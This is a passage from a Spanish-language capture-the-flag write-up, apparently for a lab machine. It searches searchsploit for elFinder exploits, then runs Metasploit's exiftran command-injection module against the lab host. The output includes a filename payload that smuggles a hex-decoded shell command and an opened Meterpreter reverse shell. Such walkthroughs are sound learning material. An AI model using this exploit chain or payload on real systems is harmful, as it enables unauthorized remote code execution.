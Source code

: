 Realizando una búsqueda con `searchsploit`

```bash
$ searchsploit elFinder     
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
elFinder 2 - Remote Command Execution (via File Creation)                                                                            | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command Injection                                                                                  | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                                                          | php/remote/46539.rb
elFinder Web file manager Version - 2.1.53 Remote Command Execution                                                                  | php/webapps/51864.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Podemos observar que hay un exploit justa para la versión que necesitamos, por lo que vamos a ingresar a Metasploit.

Realizamos la búsqueda y encontramos:

```bash
msf > search elFinder PHP Connector < 2.1.48

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection

```

Haciendo las configuraciones correspondiente:

```bash
msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.hmv
RHOSTS => files.lookup.hmv

msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 192.168.56.22
LHOST => 192.168.56.22

msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.56.22:4444 
[*] Uploading payload 'zzRclDCn.jpg;echo 6370202e2e2f66696c65732f7a7a52636c44436e2e6a70672a6563686f2a202e4634577077472e706870 |xxd -r -p |sh& #.jpg' (1937 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.F4WpwG.php) ...
[*] Sending stage (40004 bytes) to 192.168.56.21
[+] Deleted .F4WpwG.php
[*] Meterpreter session 1 opened (192.168.56.22:4444 -> 192.168.56.21:38866) at 2025-09-24 16:09:50 -0500
[*] No reply
[*] Removing uploaded file ...
```